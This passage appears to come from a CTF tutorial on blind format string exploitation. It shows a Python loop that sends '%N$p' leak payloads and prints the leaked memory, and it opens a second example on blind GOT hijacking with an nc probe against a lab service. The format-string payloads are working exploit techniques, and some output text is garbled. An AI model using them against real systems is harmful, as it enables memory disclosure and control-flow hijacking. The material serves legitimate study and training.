 ```python

    payload = '%{}$p'.format(i)

    leak(payload)

    i += 1



```



Finally, I simply looked at the output and got the flag.


```shell

////////

////////

\x00\x00\x00\x00\x00\x00\x00\xff
flag {exam
s_is_fla

g}\x00\x00\x00\x00\x00\x00

\x00\x00\x00\x00\xfe\x7f\x00\x00

```



### Example 2 - Blind hijacking got


The source code and deployment files are already in the [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_got) folder.


#### Determine the number of programs


By simply testing, we found that this program is a format string vulnerability function, and the program is 64-bit.


```shell

➜  blind_fmt_got git:(master) ✗ nc localhost 9999

%p

0x7fff3b9774c0
```


